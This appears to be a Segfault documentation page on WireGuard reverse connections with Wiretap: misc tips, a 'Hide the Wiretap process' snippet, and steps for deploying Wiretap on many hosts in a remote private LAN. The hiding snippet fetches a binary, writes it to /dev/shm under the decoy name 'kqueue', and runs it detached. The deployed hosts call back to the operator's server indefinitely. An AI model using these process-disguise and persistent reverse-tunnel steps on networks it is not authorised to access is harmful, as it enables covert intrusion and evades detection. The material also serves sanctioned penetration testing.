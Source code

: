 ```yaml
---
layout: default
title: Segfault / WireGuard Tricks
description: Segfault WireGuard Reverse Connection tricks.
---
```


<div style="text-align:center">
    <h1>WireGuard Reverse Connection</h1>
    <p>Hacks, Tips, Tricks and other shenanigans</p>
</div>

## Misc Tips

1. Use `curl sf/net/help` for some help
1. `-d name=all` works with all commands
1. `curl sf/net/show` may show that the interface is up but that no data has been transferred. It is likely that you have not started `wiretap` on the Exit Node yet or that Wiretap can not reach your Root Server.
1. It is only possible to have 1 Interface up at a time. (if you like us to add multi-interface support then please contact us.)

## Hide the Wiretap process

```shell
cd /dev/shm
curl -fsSL https://github.com/sandialabs/wiretap/releases/download/v0.2.1/wiretap_0.2.1_linux_amd64.tar.gz | tar xfz - -O >kqueue
PATH=.:$PATH
setsid kqueue server --private ...
```

## Deploy Wiretap first

It is possible to install [Wiretap](https://github.com/sandialabs/wiretap/releases/tag/v0.2.1) on many many servers and only activate the Interface on your [Root Server](../) if and when needed. The Root Server does not need to know about the Wiretap installations until you like to access the remote private LAN from your [Root Server](../).

A deployed Wiretap will connect back to your [Root Server](../) indefinitely and until it is uninstalled from the remote private LAN.

__Step #1: Allocate a UDP port on your Root Server__

```shell
curl http://rpc/net/init
```

Take note of the *port*. The UDP Port is now associated with your [Root Server](../). Ignore the rest.

__Step #2: Generate Keys on the Exit Node__

The Exit Node is any Linux, Windows or OSX system inside the remote private LAN.

```shell
wiretap configure -e XX.segfault.net:<port> # Replace 'XX' with the segfault region you are using
```

{:refdef: style="text-align: center;"}
![login screen](wt-nosf2.png){:height="80%" width="80%"}
{: refdef}

Take note of the *PrivateKey* and *PublicKey*.

Start Wiretap as described in the output (green):

```shell
wiretap serve --private <...> --public <...> --endpoint XX.segfault.net:<port>
```

Repeat this step on as many Exit Nodes as you like and keep note of every new PrivateKey/PublicKey for each Exit Node.

__Step #3: Access the Network__

On your [Root Server](../):

```
curl http://rpc/net/up -d name=PrivLAN31337 -d private=<PrivateKey> -d exit_public=<PublicKey>
```

## Contact

{% include contact-details.md %}
